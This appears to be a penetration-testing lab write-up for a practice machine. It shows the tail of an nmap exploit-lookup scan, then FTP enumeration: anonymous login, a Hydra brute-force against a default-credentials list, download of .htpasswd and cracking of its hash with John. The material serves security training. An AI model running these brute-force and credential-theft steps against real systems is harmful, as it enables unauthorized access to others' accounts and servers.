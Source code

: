 ```bash
|       22DCCD26-B68C-5905-BAC2-71D10DE3F123    9.8     https://vulners.com/githubexploit/22DCCD26-B68C-5905-BAC2-71D10DE3F123        *EXPLOIT*
|       2108729F-1E99-54EF-9A4B-47299FD89FF2    9.8     https://vulners.com/githubexploit/2108729F-1E99-54EF-9A4B-47299FD89FF2        *EXPLOIT*
|       1C39E10A-4A38-5228-8334-2A5F8AAB7FC3    9.8     https://vulners.com/githubexploit/1C39E10A-4A38-5228-8334-2A5F8AAB7FC3        *EXPLOIT*
|       1337DAY-ID-37777        9.8     https://vulners.com/zdt/1337DAY-ID-37777        *EXPLOIT*
|       1337DAY-ID-36952        9.8     https://vulners.com/zdt/1337DAY-ID-36952        *EXPLOIT*
|       11813536-2AFF-5EA4-B09F-E9EB340DDD26    9.8     https://vulners.com/githubexploit/11813536-2AFF-5EA4-B09F-E9EB340DDD26        *EXPLOIT*
|       0C47BCF2-EA6F-5613-A6E8-B707D64155DE    9.8     https://vulners.com/githubexploit/0C47BCF2-EA6F-5613-A6E8-B707D64155DE        *EXPLOIT*
|       0AA6A425-25B1-5D2A-ABA1-2933D3E1DC56    9.8     https://vulners.com/githubexploit/0AA6A425-25B1-5D2A-ABA1-2933D3E1DC56        *EXPLOIT*
|       07AA70EA-C34E-5F66-9510-7C265093992A    9.8     https://vulners.com/githubexploit/07AA70EA-C34E-5F66-9510-7C265093992A        *EXPLOIT*
|       PACKETSTORM:164501      0.0     https://vulners.com/packetstorm/PACKETSTORM:164501      *EXPLOIT*
|       PACKETSTORM:164418      0.0     https://vulners.com/packetstorm/PACKETSTORM:164418      *EXPLOIT*
|       EDB-ID:41769    0.0     https://vulners.com/exploitdb/EDB-ID:41769      *EXPLOIT*
|       EDB-ID:41768    0.0     https://vulners.com/exploitdb/EDB-ID:41768      *EXPLOIT*
|       EDB-ID:36352    0.0     https://vulners.com/exploitdb/EDB-ID:36352      *EXPLOIT*
|       EDB-ID:34133    0.0     https://vulners.com/exploitdb/EDB-ID:34133      *EXPLOIT*
|       EDB-ID:31052    0.0     https://vulners.com/exploitdb/EDB-ID:31052      *EXPLOIT*
|       EDB-ID:18442    0.0     https://vulners.com/exploitdb/EDB-ID:18442      *EXPLOIT*
|_      1337DAY-ID-16843        0.0     https://vulners.com/zdt/1337DAY-ID-16843        *EXPLOIT*
3145/tcp open  zftp-admin         zFTPServer admin
3389/tcp open  ssl/ms-wbt-server?
```
---
# Enumeration
## Port 21 - FTP (zFTPServer 6.0)
- Ran `ftp 192.168.171.46` and used username `anonymous`
![[Pasted image 20241025194245.png]]
- Change directory to `accounts` and identified three `uac` accounts including `admin` and `Offsec`
![[Pasted image 20241025194448.png]]
- Navigated to `/` directory and unsuccessfully attempted to run `get settings.ini`
![[Pasted image 20241025194627.png]]
- Exited ftp login, and ran `hydra 192.168.171.46 ftp -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` to brute force other logins - identified credentials `admin:admin` `anonymous:anonymous` `Admin:admin`
![[Pasted image 20241025201654.png]]
- Ran `ftp 192.168.171.46` with credentials `admin:admin` and identified three available files
![[Pasted image 20241025201910.png]]
- Used `get` to download all three files and inspected individually. 
	- Ran `cat index.php` - identified a quote from Plautus
![[Pasted image 20241025202406.png]]
	- Ran `cat .htaccess`
![[Pasted image 20241025202537.png]]
	- Ran `cat .htpasswd` - identified password hash for user `offsec:offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0`
![[Pasted image 20241025202711.png]]
- Saved `offsec:offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0` as `offsec.hash` and ran `john offsec.hash` to crack password hash - identified credentials `offsec:elite`